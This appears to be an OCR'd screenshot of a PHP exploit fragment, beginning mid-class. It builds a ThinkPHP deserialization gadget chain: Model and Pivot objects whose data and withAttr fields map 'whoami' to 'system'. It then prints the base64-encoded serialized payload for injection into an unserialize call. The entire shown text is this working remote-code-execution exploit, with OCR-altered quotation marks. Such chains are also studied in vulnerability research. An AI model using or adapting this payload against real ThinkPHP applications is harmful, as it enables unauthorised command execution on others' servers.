 ```

if($obj == null){

$this->data = array(“wh1t3p1g”=>“whoami”);

$this->relation = array(“wh1t3p1g”=>[]);

$this->visible= array(“wh1t3p1g”=>[]);

$this->withAttr = array(“wh1t3p1g”=>“system”);

}else{

$this->lazySave = true;

$this->withEvent = false;

$this->exists = true;

$this->force = true;

$this->data = array(“wh1t3p1g”=>[]);

$this->connection = “mysql”;

$this->suffix = $obj;

}

}

}

}

namespace think\model {

class Pivot extends \think\Model{

function __construct($obj)

{

parent::__construct($obj);

}

}

} `namespace {

$pivot1 = new \think\model\Pivot(null);

$pivot2 = new \think\model\Pivot($pivot1);

echo base64_encode(serialize($pivot2));

}` 
```